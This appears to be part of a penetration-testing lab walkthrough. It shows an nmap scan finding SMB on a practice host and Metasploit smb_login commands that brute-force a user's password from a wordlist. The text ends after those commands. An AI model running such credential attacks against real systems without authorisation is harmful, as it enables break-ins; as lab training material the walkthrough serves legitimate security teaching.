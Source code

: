 
## 🧪 Step-by-Step Lab Walkthrough

### Lab Scenario: Complete SMB Attack From Start to Finish

**Target:** demo.ine.local
**Goal:** Find valid SMB credentials and access file shares
**Time Needed:** 15-20 minutes

---

### Step 1: Find SMB Service

**What We're Doing:** Looking for open SMB ports on our target

#### Command Used:
```bash
nmap -p 445 demo.ine.local
```

#### What Happened:
```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-08 13:22 IST
Nmap scan report for demo.ine.local (192.26.1.3)
Host is up (0.000021s latency).
PORT    STATE SERVICE
445/tcp open  microsoft-ds
```

#### 🎯 What This Tells Us:
- **Port 445 is open** - SMB service is running
- **Target is responding** - System is alive and accessible
- **Service type** - microsoft-ds means Windows SMB
- **Ready for attack** - We can try to connect

#### Why This Matters:
Finding port 445 open confirms SMB is available. This is our target for password attacks.

---

### Step 2: Attack Passwords with Metasploit

**What We're Doing:** Using Metasploit to try many username and password combinations

#### Commands Used:
```bash
msfconsole -q
use auxiliary/scanner/smb/smb_login
set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
set SMBUser jane
set RHOSTS demo.ine.local
exploit
```

